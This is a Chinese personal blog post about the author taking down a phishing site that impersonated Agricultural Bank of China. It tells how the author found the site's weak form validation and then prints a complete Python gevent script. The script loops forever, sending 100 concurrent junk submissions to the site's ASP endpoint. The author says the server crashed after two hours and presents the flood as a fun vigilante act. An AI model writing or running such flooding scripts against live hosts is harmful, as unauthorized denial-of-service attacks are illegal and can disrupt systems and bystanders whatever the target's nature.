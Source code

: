 ```yaml
---
layout: post
title: 记一次 DoS 诈骗网站的经历
categories: 编程
tags: 安全
---
```


题海中激战，正当不亦乐乎时，手机响了。低头一看，是 95599 的短信：

> 尊敬的农行用户，您的账户积分累计现可兑换价值 1024 元现金大礼包！请手机登陆 [wap.abchyd.com](http://wap.abchyd.com) 进行领取！【农业银行】

1024 元？哼！这个数还挺整，但一看就是诈骗短信：哪有银行的域名长得和天书一样？更何况，我又没有农行的账户。

正待删除时，一个念头划过脑海，指尖悬停在屏幕上方。

突然想起昨天在 Freebuf 上看到的一篇文章，说是一个黑帽把臭名昭著的“10086 诈骗”给调戏了一番，在其数据库里填满了垃圾。Freebuf 上许多黑技术我从来都是可望而不可即，唯独这个比较简单——不就是写个脚本嘛，几分钟的事。既然他骗人骗到我这里来了，何不好好调戏一下呢？

果断打开电脑，打开 Chrome，输入网址，映入眼帘的是一个表单（网站已被黑掉因此就没有图了，好吧我错了），要求用户填写 银行卡、密码、手机号还有一个逼格很高的验证码。

F12 分析，发现对各个字段的校验仅仅局限于长度的检查，连格式检查都没有。至于验证码，随便填写四个数字就可以通过了（真是弱爆了，好吗！）。表单提交后跳转到一个有菊花加载圈的页面——说是“稍等，切勿关闭页面”，但其实这个页面并不会跳转，也不会有其他的操作，只有那个菊花一直在转。扫一眼地址栏，发现是`asp`结尾——这又给了我不小的鼓励（这里并没有黑微软的意思， ASP 是十年前的产物，放在现在可以说是弱的不行了）。

该怎么调戏呢？一个想法飞快地在脑海中产生——对了，就用高并发的垃圾数据拖爆它的数据库吧。这类钓鱼网站通常都是 IIS 6.0 + ASP + SQL SERVER，并且还是单机服务器，并发度一高机器很容易就垮了。

简单地写了一个脚本：

```python
#! /usr/bin/python

import gevent.monkey
gevent.monkey.patch_all()
import gevent
import urllib2, urllib
from uuid import uuid1

def fuck():
    id = str(uuid1())[:16]
    print 'fucking', id
    try:
        urllib2.urlopen('http://www.abchyd.com/add_1.asp', urllib.urlencode({
            'logonCardNum': id,
            'netType': '111111',
            'tel': '12345678900',
            'randomId': '1234'
        }))
    except:
        pass

    print 'fucking', id, 'ok'

while True:
    gevent.joinall([gevent.spawn(fuck) for _ in range(100)])

```

这里用 `gevent` 将 Socket 由阻塞型改装为协程型，以提高请求的并发度。

接着，关掉所有的图形界面，只开一个终端（为了节省内存），运行 `./fuckit.py`。哈哈哈，受死吧！

用平板再次打开该网址（电脑已经跑不起浏览器了），可以发现网站已经明显慢了下来，时不时还会有 500 错误。

两个小时后。

当我再次访问网站时，它已经完全当机了。用`nmap`扫了一遍，也没有端口活着了。一台邪恶的服务器就这样被干掉了。

但我知道，这样的服务器，在世界上还存在着许多许多。曾经有段时间，不断遇到域名为 www.10086xxx.com 的诈骗网站。常常是一个域名被封了，另一个域名便冒出来，可见诈骗者拥有海量的资源。

这次的攻击只是一次游戏，一次尝试，得以成功只是因为对方太弱了。

真正的网络攻防战，远不止如此。
